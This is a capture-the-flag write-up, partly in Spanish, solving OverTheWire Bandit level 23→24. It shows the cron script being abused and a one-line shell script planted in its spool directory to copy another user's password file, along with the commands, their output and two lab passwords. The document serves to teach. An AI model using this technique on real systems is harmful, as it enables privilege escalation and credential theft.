 # Bandit Level 23 → Level 24


## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de Acceso
- ssh bandit23@bandit.labs.overthewire.org -p 2220.
- QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución 
```bash
- ls -la /etc/cron.d/
		total 48
		drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
		drwxr-xr-x 110 root root 4096 Sep  1 06:30 ..
		-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
		-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
		-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
		-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
		-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
		-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
		-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
		-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
		-rw-r--r--   1 root root  102 Mar 23 13:49 .placeholder
		-rw-r--r--   1 root root  396 Feb  2  2021 sysstat

- cat /etc/cron.d/cronjob_bandit24
		@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
		* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

- cat /usr/bin/cronjob_bandit24.sh
	#!/bin/bash
	
	myname=$(whoami)
	
	cd /var/spool/$myname/foo
	echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
	for i in * .*;
	do
	    if [ "$i" != "." -a "$i" != ".." ];
	    then
	        echo "Handling $i"
	        owner="$(stat --format "%U" ./$i)"
	        if [ "${owner}" = "bandit23" ]; then
	            timeout -s 9 60 ./$i
	        fi
	        rm -f ./$i
	    fi
	done
	
- mkdir /tmp/adolfosh
- cd /tmp/adolfosh
- echo "cat /etc/bandit_pass/bandit24 > /tmp/adolfosh/password" > adolfo.sh
- cat adolfo.sh
    cat /etc/bandit_pass/bandit24 > /tmp/adolfosh/password

- chmod 777 adolfo.sh
- touch password
- chmod 666 password
- ls -la
	total 192
	drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:32 .
	drwxrwx-wt 4821 root     root     184320 Sep  6 13:33 ..
	-rwxrwxrwx    1 bandit23 bandit23     55 Sep  6 13:31 adolfo.sh
	-rw-rw-rw-    1 bandit23 bandit23      0 Sep  6 13:32 password

- cp adolfo.sh /var/spool/bandit24/foo/
- date
   Tue Sep  6 01:35:26 PM UTC 2022
- date
   Tue Sep  6 01:37:32 PM UTC 2022
- 

- ls -la
		total 196
		drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:32 .
		drwxrwx-wt 4821 root     root     184320 Sep  6 13:35 ..
		-rwxrwxrwx    1 bandit23 bandit23     55 Sep  6 13:31 adolfo.sh
		-rw-rw-rw-    1 bandit23 bandit23     33 Sep  6 13:36 password

- cat password
     VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas Adicionales

## Referencias